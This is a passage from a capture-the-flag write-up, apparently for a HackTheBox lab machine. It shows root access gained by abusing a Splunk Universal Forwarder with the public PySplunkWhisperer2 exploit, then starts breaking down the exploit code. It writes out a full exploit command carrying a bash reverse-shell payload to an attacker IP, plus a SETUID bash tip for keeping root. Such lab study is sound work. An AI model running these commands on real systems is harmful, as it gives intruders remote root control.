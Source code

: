 
I came across an article that shows us the way to achieve remote code execution through Splunk forwarders - [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)

The article points towards a public exploit which is [https://raw.githubusercontent.com/cnotin/SplunkWhisperer2/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py](https://raw.githubusercontent.com/cnotin/SplunkWhisperer2/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py)

We can use `python3 PySplunkWhisperer2_remote.py --host doctors.htb --lhost 10.10.14.8 --username shaun --password Guitar123 --payload 'bash -c "bash -i >& /dev/tcp/10.10.14.8/9001 0>&1"'` to execute a bash reverse shell payload on the host. It'll give us a shell as root.

![root_shell](assets/img/posts/doctor-htb/root_shell.png)

> Quick Tip: If you don't want a reverse shell, you can also mark /bin/bash as SETUID using "chmod +s /bin/bash" and just run "/bin/bash -p" from user shell (shaun).

We got root! Let's now understand how the exploit worked and we got root access by a running Splunk Universal Forwarder.

---

#### Understanding the Exploit <a name="understanding-exploit">

Public Exploit Link: [https://raw.githubusercontent.com/cnotin/SplunkWhisperer2/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py](https://raw.githubusercontent.com/cnotin/SplunkWhisperer2/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py)  
We will understand the exploit by breaking down the functions and classes. The exploit code is written in Python.


- **create_splunk_bundle** - This __function__ creates a TAR configuration bundle which will simply be the payload file on the go. A bundle is a set of common configuration files that is distributed to the nodes in the Splunk network during a single operation. 

- **CustomHandler** - This __class__ starts a HTTP request handler using `http.server` module which had been imported earlier.
